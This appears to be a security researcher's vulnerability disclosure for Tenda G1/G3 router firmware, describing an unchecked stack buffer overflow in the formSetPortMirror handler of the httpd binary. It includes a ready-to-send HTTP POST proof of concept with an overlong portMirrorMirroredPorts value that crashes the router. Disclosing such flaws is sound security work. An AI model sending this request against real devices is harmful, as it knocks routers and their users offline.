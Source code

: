# Tenda Vulnerability

Vendor:Tenda

Product:G1、G3

Version:V15.11.0.17(9502)_CN(Download Link:https://www.tenda.com.cn/download/detail-3108.html)

Type:Stack Overflow

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an stack overflow vulnerability in Tenda router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In `formSetPortMirror` function, `portMirrorMirroredPorts` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow,so we can control the `portMirrorMirroredPorts` to crash the server.

As you can see here, the input has not been checked. The parameter `portMirrorMirroredPorts` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 



## PoC

We set `portMirrorMirroredPorts` as **aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa....** , and the router will crash, such as:

```http
POST /goform/setPortMirror HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 442
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/network/portMirror.html?0.4185757176514503
Cookie: _:USERNAME:_=; G3v3_user=

portMirrorEn=true&portMirrorMirroredPorts=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



## Result

The target router crashes and cannot provide services correctly and persistently.


